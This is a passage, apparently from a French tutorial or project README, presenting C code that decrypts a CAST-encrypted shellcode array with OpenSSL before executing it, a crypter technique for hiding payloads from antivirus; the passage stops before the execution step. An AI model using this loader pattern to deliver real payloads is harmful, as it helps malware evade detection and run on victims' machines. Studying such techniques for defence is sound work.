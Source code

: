 Une fois cela fait, nous obtenons le shellcode chiffré. Nous le copions dans le fichier decrypt.c afin de procéder au déchiffrement puis execution du shellcode. 

## Déchiffrement ##

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <openssl/cast.h>

void affichageVar(unsigned char* tab, int length, char *name);
void affichage(unsigned char* tab, int length, char* name);
void exec(unsigned char* shellcode);

int main(int argc, char *argv[])
{
    CAST_KEY key;

    if (argc < 2)
    {
        printf ("usage ./decrypt [key]\n");
        exit(1);
    }

    // We define here the key
    unsigned char key_data[CAST_KEY_LENGTH]; 

    if (strlen(argv[1]) != 16)
    {
        printf("Taille de le clé incorrecte");
        exit(1);
    }
    strcpy(key_data, argv[1]);


    // We define the Interupt Vector
    unsigned char iv[CAST_BLOCK];
    unsigned char iv_data[CAST_BLOCK] = {
        0xde, 0xad, 0xbe, 0xef, 0xde, 0xad, 0xbe, 0xef
    };

    
    unsigned char shellcode[] = \		"\x93\x13\xe1\xb2\x5e\x68\xd6\xfa\x71\x8a\x2b\x40\x92\x68\x0b\xf1\x3f\xc7\xba\x74\x4e\xfc\x1f\xcb\xbf\x05\xd8\x92\x3e\x78\x49\x34\x89\x0b\x96\x6f\x19\x48\x4a\xda";

	// Round up the length to a multiple of 16 */
    int length  = (int)(strlen(shellcode) + (CAST_BLOCK - 1)) & ~(CAST_BLOCK - 1);

    // temp array for the original shellcode
    // All values are set to 0 because length is a multiple of 16
    char* origin  = (char*) malloc(sizeof(char) * length); 

    // Copy the IV data to the IV array 
    memcpy(iv, iv_data, CAST_BLOCK);
    affichageVar(key_data, CAST_KEY_LENGTH, "Key");
    affichageVar(iv_data, CAST_BLOCK, "IV");

    // Set the key
    CAST_set_key(&key, CAST_KEY_LENGTH * 8, key_data);
    
    // decrypt, store the decrypted shellcode into origin
    CAST_cbc_encrypt(shellcode, origin, length, &key, iv, CAST_DECRYPT);
```